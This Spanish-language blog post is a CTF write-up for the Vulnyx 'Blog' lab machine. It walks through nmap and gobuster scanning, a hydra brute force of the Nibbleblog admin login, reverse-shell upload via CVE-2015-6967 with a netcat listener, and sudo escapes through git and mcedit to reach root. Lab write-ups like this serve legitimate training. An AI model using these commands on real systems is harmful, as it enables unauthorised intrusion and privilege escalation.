 ```yaml
---
title: "Blog Writeup - Vulnyx"
date: 2024-01-30
categories: [Writeups, Vulnyx, Easy]
tags: [Linux, Easy, Blog, Vulnyx, privesc, fuzz, git, port, mcedit, hydra, CVE]
image:
   path: /assets/img/posts/blog/blogbanner.png
   lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
   alt: Banner blog
---
```



| Información |
|------------|------------|------------|
| Máquina: Blog |
| Creador: d4t4s3c |
| SO: Linux |
| Dificultad: Easy |

En el caso de esta máquina el propio creador RiJaba1 nos da la IP de la misma en el login de la máquina.

En mi caso va a ser la:

```zsh
192.168.0.30
```

![](/assets/img/posts/blog/IPDescubrir.png)

Realizo un ping a la máquina para confirmar que hay visibilidad entre máquinas

![](/assets/img/posts/blog/ping.png)

Realizamos un nmap para ver que servicios están corriendo en la máquina.

``` bash
nmap -sVC 192.168.0.30
```

> El parámetro -sVC es el conjunto de -sV (Service Version, te muestra las versiones de los servicios) y -sC (Script Scan, nos ayuda a encontrar vulnerabilidades conocidas o servicios en el objetivo).
> {: .prompt-tip }

![](/assets/img/posts/blog/nmap.png)

Disponemos de un servicio HTTP en el puerto 80 y un servicio SSH en el puerto 22, visitamos la web.

El index es un ping que nos da la pista de que se trata de un blog

![](/assets/img/posts/blog/esunBlog.png)

Puesto que no encontramos nada procedemos a realizar un escaneo de directorios con dirbuster

```zsh
gobuster dir -u "http://192.168.0.30" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![](/assets/img/posts/blog/dirbuster.png)

Encontramos un directorio llamado /my_weblog, nos dirigimos a él.

![](/assets/img/posts/blog/weblog.png)

Encontramos un blog, mirando el código fuente de la página nos damos cuenta que es un Nibbleblog

![](/assets/img/posts/blog/Nibbleblog.png)

Buscando en la [documentación de nibbleblog](https://docs.bludit.com/en/security/disable-admin-user) (ahora bludit) he encontrado que por defecto el usuario con privilegios es "admin"

Intentamos entrar al panel de login con la URL 
```URL
http://192.168.0.30/my_weblog/admin/
```

pero sin éxito, intentamos un FUZZING para encontrar el panel de login

```zsh
gobuster fuzz -w /usr/share/wordlists/wfuzz/general/admin-panels.txt -t 200 -u "http://blog.nyx/my_weblog/FUZZ" --exclude-length 270
```

![](/assets/img/posts/blog/adminphp.png)

Encontramos lo que parece ser el panel de control

![](/assets/img/posts/blog/panelcontrol.png)

Intentamos una fuerza bruta sabiendo que el usuario por defecto es `admin`

```zsh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.30 http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect"
```

Obtenemos la password para acceder al panel de control

![](/assets/img/posts/blog/hydra.png)

Una vez dentro vamos a intentar explotar la vulnerabilidad [CVE-2015-6967](https://www.exploit-db.com/exploits/38489) que permite ejecución remota de código a través del plugin My Image

![](/assets/img/posts/blog/plugins.png)

Creamos y subimos la [revshell](https://www.revshells.com/) a través del plugin My Image

![](/assets/img/posts/blog/revshell.png)

Ponemos el puerto que hemmos elegido a la escucha

```zsh
nc -nlvp 4444
```

Ejecutamos la revshell desde la URL 
```URL
http://192.168.0.30/my_weblog/content/private/plugins/my_image/image.php
```

Conseguimos la shell como el usuario www-data

![](/assets/img/posts/blog/shellwww.png)

Encuentro la posible explotación del binario git

![](/assets/img/posts/blog/git.png)

Hago una búsqueda en [GTFObins](https://gtfobins.github.io/)

Antes de explotar el binario es necesario hacer un [tratamiento de la TTY](https://404azz.github.io/posts/Tratamiento_TTY/)

Lo exploto ejecutándolo como el user admin con
```zsh
sudo -u admin /usr/bin/git -p help config
```

Nos dejará meter un texto, invocamos la shell con !/bin/bash y nos convertimos en admin

![](/assets/img/posts/blog/binbash.png)

Encontramos la flag de user dentro de su home

![](/assets/img/posts/blog/user.png)

Hacemos el mismo procedimiento para escalar privilegios, observamos si como admin podemos ejecutar algún binario explotable como root

![](/assets/img/posts/blog/mcedit.png)

Encontramos el mcedit, haciendo una búsqueda en [GTFObins](https://gtfobins.github.io/) no encontramos nada.

Ejecutamos el binario como root 

```zsh
sudo /usr/bin/mcedit
```

![](/assets/img/posts/blog/mceditscreen.png)

Encuentro una forma de invocar una shell desde el programa

![](/assets/img/posts/blog/mceditmenu.png)

![](/assets/img/posts/blog/mceditusermenu.png)

![](/assets/img/posts/blog/mceditshell.png)

Nos convertimos en root a través de la shell de mcedit

![](/assets/img/posts/blog/root.png)

Y por último obtenemos la flag de root!

